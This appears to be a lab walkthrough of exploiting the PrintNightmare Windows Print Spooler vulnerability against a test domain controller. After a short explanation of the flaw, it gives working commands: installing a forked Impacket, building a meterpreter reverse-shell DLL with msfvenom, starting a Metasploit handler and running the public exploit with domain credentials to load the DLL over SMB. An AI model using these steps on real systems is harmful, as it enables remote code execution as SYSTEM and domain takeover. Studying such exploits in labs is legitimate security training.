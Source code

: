 ## Introduction
- PrintNightmare(CVE-2021-34527) is a vulnerability which affects the Microsoft Windows Print Spooler Service.
- The exploit exists within the RpcAddPrinterdriver. This exists to enable remote printing and driver installation.
- This provides the ability to install new printer drivers to a remote print spooler.
- Essentially, this becomes an exploit because it means any “authenticated” user, not just the trusted, permitted sysadmins, can add any ‘Print Driver’ to Windows.
- Any random user can escalate this privilege to become a domain admin. Then, if they’re a malicious actor, start causing chaos with some nasty code.
- It has the potential to enable cyber-attackers to gain complete control of an affected system.
- As the Print Spooler service is run on Domain Controllers, an attacker could insert DLLs into a remote Windows host, whereby a regular domain user can execute code as SYSTEM on the Domain Controller.

**For more details follow** - https://github.com/cube0x0/CVE-2021-1675
## Practical implementation on lab:
1. Scanning for vulnerability of PrintNightmare.
![[printnightmare1.png]]
From the output, we can clearly say that this is vulnerable.

2. Before running the exploit you need to install another version of Impacket.
```python
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

3. Downloading main exploit code.
**You can find main exploit code here** --> https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py
**In local machine, have a look here** --> /opt/exploits

4. payload creation using msfvenom.
```python
┌──(kali㉿kali)-[/opt/exploits]
└─$ sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.19 LPORT=4444 -f dll > shell.dll
```

5. Starting a multi handler using metasploit
```python
┌──(kali㉿kali)-[~]
└─$ sudo msfconsole
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > set lhost 192.168.1.19
lhost => 192.168.1.19
msf6 exploit(multi/handler) > run
```

6. Starting a smb2 share.
![[printnightmare2.png]]

7. Starting the exploitation
```python
┌──(kali㉿kali)-[~]
└─$ sudo python3 CVE-2021-1675 marvel.local/fcastle:Password1@192.168.1.15 '\\192.168.1.19\share\shell.dll
```

